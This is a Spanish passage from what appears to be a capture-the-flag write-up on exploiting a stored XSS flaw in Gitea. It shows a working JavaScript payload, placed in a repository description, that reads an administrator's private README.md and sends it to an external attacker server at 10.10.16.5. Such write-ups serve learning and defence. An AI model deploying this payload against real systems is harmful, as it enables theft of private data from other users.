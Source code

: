 **Explotación de la vulnerabilidad**

El primer paso para realizar la explotación de esta vulnerabilidad de `XSS Stored` en `Gitea` es crear un nuevo repositorio.

<figure><img src="../../.gitbook/assets/imagen (298).png" alt=""><figcaption></figcaption></figure>

Crearemos un nuevo repositorio, en este caso con nuestro nombre `gzzcoo`. Siguiendo el PoC de la vulnerabilidad, deberemos de inyectar nuestro payload dentro de la descripción.

En este caso, como queremos que se realice la exfiltración del archivo `README.md` para verificar si funciona, inyectamos el siguiente payload que reenviará los datos a nuestro servidor web externo.

```javascript
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md').then(response => response.text()).then(data => fetch('http://10.10.16.5/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">gzzcoo</a>
```

